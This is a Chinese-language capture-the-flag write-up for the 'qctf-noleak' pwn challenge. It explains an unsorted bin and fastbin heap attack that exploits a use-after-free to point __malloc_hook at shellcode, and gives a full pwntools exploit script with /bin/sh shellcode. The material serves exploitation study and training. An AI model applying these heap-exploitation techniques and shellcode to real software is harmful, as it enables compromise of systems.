







# 标题

> qctf-noleak

## **原理**

利用了 unsortedbin attack 和 fastbin attack。

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

存在 UAF 和 堆溢出漏洞。

删除操作：



修改操作：




查看保护机制：



Full RELRO是我们无法修改GOT表。NX没有开启，或许我们可以通过执行shellcode的方式来获得shell。

- 首先我们通过 unsortbin attack 向0x601040+0x28 + 0x10 也就是 buf[7]中写入main_arena+88 的地址。

```
delete(1)
update(1,p64(0x601040+0x28)*2) 
create(0x80,'G'*0x30)#3  
```



- fake chunk

```
delete(0)
update(0,p64(0x601075)) #fake fastbin
create(0x68,'H'*0x10)#4 
create(0x68,'I'*3+p64(0x601070))#5 向buf[9]（0x601088）写入 0x601070


update(9,p64(0x601090)+'\x10') # 用update将buf[6]修改为
0x601090，为后面向bss段写shellcode做准备，同时partial overwrite 修改buf[7]的最低位，
使其变成__malloc_hook的地址
```



- 利用update 功能，修改buf[6]，在0x601090的地址上写入shellcode，并使 malloc_hook 指向shellcode




- 执行完exp，再malloc一个chunk，就可以 执行shelllcode




完整exp：

```
from pwn import *
s = process('./NoLeak')
 
def create(size,pay):
	s.recvuntil('Your choice :')
	s.sendline('1')
	s.recvuntil('Size:')
	s.sendline(str(size))
	s.recvuntil('Data:')
	s.send(pay)
 
def delete(idx):
	s.recvuntil('Your choice :')
	s.sendline('2')
	s.recvuntil('Index')
	s.sendline(str(idx))
def update(idx,pay):
	s.recvuntil('Your choice :')
        s.sendline('3')
        s.recvuntil('Index:')
	s.sendline(str(idx))
	s.recvuntil('Size:')
        s.sendline(str(len(pay)))
	s.recvuntil('Data:')
	s.send(pay)
sc='\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
create(0x68,'A'*0x20)#0
create(0x80,'E'*0x30)#1
create(0x80,'F'*0x30)#2

#利用unsorted bin attack ,向0x601040+0x28 + 0x10的地址写入 main_arena+0x88的地址
delete(1)
update(1,p64(0x601040+0x28)*2) 
create(0x80,'G'*0x30)#3  

delete(0)
update(0,p64(0x601075)) #fake fastbin
create(0x68,'H'*0x10)#4 
create(0x68,'I'*3+p64(0x601070))#5 向0x601088写入 0x601070

update(9,p64(0x601090)+'\x10') # 用编辑功能，将&buf[6]地址上的内容，将buf[6]修改为0x601090，为后面向bss段写shellcode做准备，同时partial overwrite 修改buf[7]的最低位，使其变成__malloc_hook的地址
update(7,p64(0x601090))
update(6,sc)

s.interactive()
```

## **参考阅读**

[Unsorted Bin Attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/heap/unsorted_bin_attack/)

[Fastbin Attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/heap/fastbin_attack/)

[noleak writeup_1](https://www.jianshu.com/p/e6ea43d35a8b)

[noleak writeup_2](http://blog.leanote.com/post/xp0intjnu@gmail.com/%5BPwn%5D-NoLeak-Cpt.shao)